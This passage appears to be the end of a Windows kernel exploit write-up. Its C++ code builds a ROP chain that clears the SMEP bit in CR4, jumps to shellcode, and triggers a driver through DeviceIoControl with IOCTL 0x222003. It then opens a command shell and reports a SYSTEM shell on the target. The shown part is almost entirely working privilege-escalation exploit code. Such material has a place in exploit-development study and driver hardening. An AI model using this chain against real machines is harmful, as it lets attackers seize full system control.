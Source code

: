 ```cpp
	*(rop + index++) = POP_RCX;
	*(rop + index++) = 0x350ef8 ^ 1UL << 20;
	*(rop + index++) = MOV_CR4_RCX;
	*(rop + index++) = (QWORD)shellcode;

	DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, bufSize, NULL, 0, NULL, NULL);
	
	printf("[>] Enjoy your shell!\n", ntBase);
	system("cmd");
    return 0;
}
```

Running the exploit results in a SYSTEM shell on the target:

![](proof.png)